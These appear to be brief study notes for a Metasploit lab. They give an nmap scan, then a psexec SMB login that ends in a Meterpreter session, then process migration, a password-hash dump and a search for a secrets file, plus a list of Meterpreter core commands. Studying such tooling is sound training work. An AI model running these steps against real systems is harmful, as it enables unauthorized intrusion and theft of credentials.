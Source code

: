Run
      nmap -sN -Pn -A [target IP] 

      msfconsole 
      search exploit/windows/smb/psexec

      use0


      set SMBPass [password]
      set SMBUser [user]
      run
      
      sysinfo


      migrate 772
      hashdump
      

      search -f secrets.txt
Used to locate files      

      cat "path/to/file" 


<b> Core commands </b>

    background: 
               Backgrounds the current session
    sessions: 
             Quickly switch to another session           
    exit: 
         Terminate the Meterpreter session
    guid: 
         Get the session GUID (Globally Unique Identifier)
    help: 
         Displays the help menu
    info: 
         Displays information about a Post module
    irb: 
        Opens an interactive Ruby shell on the current session
    load: 
         Loads one or more Meterpreter extensions
    migrate: 
            Allows you to migrate Meterpreter to another process
    run: 
        Executes a Meterpreter script or Post module


Become accurate with vuln scanning